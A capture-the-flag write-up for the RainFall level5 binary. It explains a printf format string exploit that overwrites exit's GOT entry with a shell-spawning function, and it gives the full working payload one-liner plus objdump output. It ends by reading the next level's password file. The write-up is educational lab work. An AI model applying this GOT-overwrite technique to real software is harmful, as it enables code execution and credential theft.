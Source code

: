# Walkthrough

## Solution

```
(python -c 'print ("\x38\x98\x04\x08" + "%134513824c" + "%4$n")'; cat -) | ./level5
pwd
/home/user/level5
whoami
level6
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```

## Explanation

### Execution

```
level5@RainFall:~$ ./level5 
hello
hello
```
-> The program waits for an input, and then echo that output.  

### Disassembly

```
info variable
0x08049854  m

info function
0x080484a4  o
0x080484c2  n
0x08048504  main
```

You can view the commented asm code [here](Ressources/assembly.asm)  
You can view the asm code translated to C [here](source.c)  


### Steps

-> We know there is a function o() that launches a shell, but it is not called.  

The program takes an input through fgets, which is protected from buffer overflows.  
It then prints the buffer and exits.  
The exit function comes from the plt (*exit@plt*).  

The procedure linkage table (PLT) consists of many jump instructions, each one corresponding to
the address of a function.  

```
level5@RainFall:~$ objdump -d -j .plt ./level5 
...
080483d0 <exit@plt>:
 80483d0:	ff 25 38 98 04 08    	jmp    *0x8049838
 80483d6:	68 28 00 00 00       	push   $0x28
 80483db:	e9 90 ff ff ff       	jmp    8048370 <_init+0x3c>
...
```  

One of these jump instructions is associated with the exit() function, which is called at the end of the program.  
If the jump instruction used for the exit() function can be manipulated to direct the execution flow into shellcode instead of the exit() function, a root shell will be spawned.  

But the plt table is *read-only*.  
The jump instruction reveals that it isn't jumping to an address but to a pointer to address.  
For example, the actual address of the exit() function’s address is stored at 0x8049838.  

These addresses exist in another section, called the **global offset table** (GOT), which is writable.

```
level5@RainFall:~$ objdump -R ./level5 

./level5:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
08049814 R_386_GLOB_DAT    __gmon_start__
08049848 R_386_COPY        stdin
08049824 R_386_JUMP_SLOT   printf
08049828 R_386_JUMP_SLOT   _exit
0804982c R_386_JUMP_SLOT   fgets
08049830 R_386_JUMP_SLOT   system
08049834 R_386_JUMP_SLOT   __gmon_start__
08049838 R_386_JUMP_SLOT   exit
0804983c R_386_JUMP_SLOT   __libc_start_main
```  

This reveals that the address of the exit() function is located in the GOT at 0x08049838.  
If the address of the shellcode is over-written at this location, the program should call
the shellcode when it thinks it’s calling the exit() function.  

We can use the printf format string vulnerability to write the function o's address instead
of the exit function address when it is called in function n().  

- Let's find in which position does the m variable address starts.  

```
level5@RainFall:~$ ./level5 
AAAA %x %x %x %x %x %x %x
AAAA 200 b7fd1ac0 b7ff37d0 41414141 20782520 25207825 78252078
```
-> It is on the 4th position.

```
-> exit:	0x08049838
-> o: 		0x080484a4 == 134513828 in decimal - 4bytes (for the exit address)
```
We have to print enough characters to reach the number that is the address of o.  

- Let's overwrite exit by o:  
```
(python -c 'print ("\x38\x98\x04\x08" + "%134513824c" + "%4$n")'; cat -) | ./level5
pwd
/home/user/level5
whoami
level6
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```
